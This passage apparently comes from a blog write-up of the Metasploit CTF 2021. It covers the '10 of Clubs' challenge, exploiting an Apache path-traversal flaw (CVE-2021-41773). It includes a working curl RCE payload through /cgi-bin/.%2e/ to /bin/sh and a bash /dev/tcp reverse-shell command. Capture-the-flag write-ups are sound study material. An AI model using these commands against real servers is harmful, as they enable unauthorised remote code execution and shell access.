 {{< image src="/img/metasploitctf2021/5ofdiamonds.png" alt="" position="center" style="border-radius: 8px;" >}}

### 10 of Clubs

This challenge was on port 12380. From an nmap scan we get the below output.

{{< image src="/img/metasploitctf2021/metasploit-ctf-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we access the http server on the browser we just get a static page.

{{< image src="/img/metasploitctf2021/metasploit-ctf-2.png" alt="" position="center" style="border-radius: 8px;" >}}

The site didn't have anything interesting about it. Looking at the Apache httpd version it looked familiar as I had seen some
advisories floating around for this version regarding a directory traveral vulnerability that could lead to RCE.


Using the below PoC command I was able to confirm RCE.

```sh
curl --data "echo;id" 'http://172.17.6.181:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

{{< image src="/img/metasploitctf2021/metasploit-ctf-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Then with the below command we can get a reverse shell on the kali vm.

```sh
curl --data "echo;/bin/bash -c '/bin/bash -i >& /dev/tcp/172.17.6.180/53 0>&1'" 'http://172.17.6.181:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
{{< image src="/img/metasploitctf2021/metasploit-ctf-4.png" alt="" position="center" style="border-radius: 8px;" >}}

With the reverse shell we can get the md5sum of the image to submit as our flag.

{{< image src="/img/metasploitctf2021/metasploit-ctf-5.png" alt="" position="center" style="border-radius: 8px;" >}}

**Flag:**

{{< image src="/img/metasploitctf2021/10ofclubs.png" alt="" position="center" style="border-radius: 8px;" >}}

**Reference:**

```
https://isc.sans.edu/forums/diary/Apache+2449+Directory+Traversal+Vulnerability+CVE202141773/27908/
```

### 2 of Clubs

This challenge was on port 20000 and 20001. When we visit port 20000 on our browser, we get the following:
